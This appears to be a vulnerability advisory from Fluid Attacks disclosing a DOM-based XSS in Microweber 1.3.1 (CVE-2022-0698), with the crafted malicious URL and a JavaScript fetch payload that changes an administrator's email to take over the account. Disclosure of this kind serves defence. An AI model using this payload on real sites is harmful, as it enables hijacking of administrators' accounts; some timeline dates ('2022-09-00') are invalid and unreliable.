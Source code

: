 ```yaml
---
slug: advisories/garrix/
title: Microweber 1.3.1  -  DOM XSS to Account Takeover
authors: Carlos Bello
writer: cbello
codename: garrix
product: Microweber 1.3.1
date: 2022-09-09 20:30 COT
cveid: CVE-2022-0698
severity: 8.8
description: Microweber 1.3.1  -  DOM XSS to Account Takeover
keywords: Fluid Attacks, Security, Vulnerabilities, Microweber
banner: advisories-bg
advise: no
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | Microweber 1.3.1  -  DOM XSS to Account Takeover       |
| **Code name**         | [Garrix](https://en.wikipedia.org/wiki/Martin_Garrix)  |
| **Product**           | Microweber                                             |
| **Affected versions** | Version 1.3.1                                          |
| **State**             | Private                                                |
| **Release date**      | 2022-09-09                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | DOM-Based cross-site scripting (XSS)                                                                   |
| **Rule**              | [371. DOM-Based cross-site scripting (XSS)](https://docs.fluidattacks.com/criteria/vulnerabilities/371)|
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 8.8                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-0698](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0698)                          |

## Description

Microweber version 1.3.1 allows an unauthenticated user to perform an
account takeover via an XSS on the 'select-file' parameter of the
following URL: http://cbelloatfluid.com/admin/view:modules/load_module:files#select-file=http://cbelloatfluid.com/userfiles/media/default/ovaa-checklist.txt.
It is possible to obtain administrative accounts through a malicious link.

## Vulnerability

The XSS present in Microweber 1.3.1, allows an unauthenticated remote
attacker to perform an Account Takeover. To trigger this vulnerability,
we will need to send the following malicious link to an administrator in
order to hack their account:

* http://cbelloatfluid.com/admin/view:modules/load_module:files#select-file=http://cbelloatfluid.com/userfiles/media/default/ovaa-checklist.php%22onload%3d%22javascript:PAYLOAD%22+///.txt

In the PAYLOAD field we will put the following malicious JS code:

```js
fetch('http://cbelloatfluid.com/api/user/1',{
    method:'POST',
    credentials:'include',
    headers:{
        'Content-type':'application/x-www-form-urlencoded;charset%3dUTF-8'
    },
    body:'id%3d1%26_method%3dPATCH%26username%3dadmin%26email%3dattacker%40fluidattacks.com%26phone%3d\r\n'
})
```

## Exploitation

To exploit this vulnerability, a malicious URL must be sent to the
administrator of the Microweber instance. Once the administrator enters
the link, we will change the email address associated with their account
to one that is under our control.

![normal](https://user-images.githubusercontent.com/51862990/189453637-86fe4ccc-3d3e-4550-a666-b0c947cbee8d.png)

![AccountTakeover](https://user-images.githubusercontent.com/51862990/189451927-3841b94f-9a1c-4c10-b286-6b493a565d36.gif)

![hacked](https://user-images.githubusercontent.com/51862990/189453661-bba7b314-dfdd-4a91-887a-a78b51c112bf.png)

## Our security police

We have reserved the CVE-2022-0698 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Microweber 1.3.1

* Operating System: GNU/Linux

* Web Server: Apache

* PHP Version: 8.1.9

* Database and version: MySQL

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from the Offensive
Team of `Fluid Attacks`.

## References

**Vendor page** <https://github.com/microweber/microweber>

## Timeline

<time-lapse
  discovered="2022-09-05"
  contacted="2022-09-05"
  replied=""
  confirmed="2022-09-00"
  patched=""
  disclosure="2022-09-00">
</time-lapse>
